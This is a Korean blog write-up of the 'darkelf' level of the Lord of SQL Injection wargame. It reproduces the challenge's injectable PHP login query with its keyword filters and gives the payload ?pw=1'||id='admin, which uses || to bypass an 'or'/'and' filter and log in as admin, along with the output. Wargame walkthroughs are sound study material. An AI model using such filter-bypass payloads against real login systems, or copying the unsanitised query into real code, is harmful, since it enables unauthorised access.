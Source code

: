 ```yaml
---
title: "[Lord of SQL Injection] LoS - darkelf 문제풀이"
date: 2018-07-25
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


다음 문제는 `darkelf` 이다.
이번 문제는 이 전 문제와 동일한 풀이 방법으로 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw=''
----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이 전에는 `공백`에 필터링이 있었지만 이번에는 `or`과 `and`에 필터링이 있다.
`worfman` 문제에서는 `공백`을 사용하지 않기 위해 `||`을 사용했었는데, 이번에는 `or` 문자열을 사용하지 않기 위해 `||`을 사용하면 될 것 같다.
이 전 문제와 동일하게 URL 뒤에 아래와 같이 입력 해 주었다.  

```plain
?pw=1'||id='admin
```

---

```php
--------------------------------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
--------------------------------------------------------------------------------------------------

Hello admin
DARKELF Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
DARKELF Clear!!
```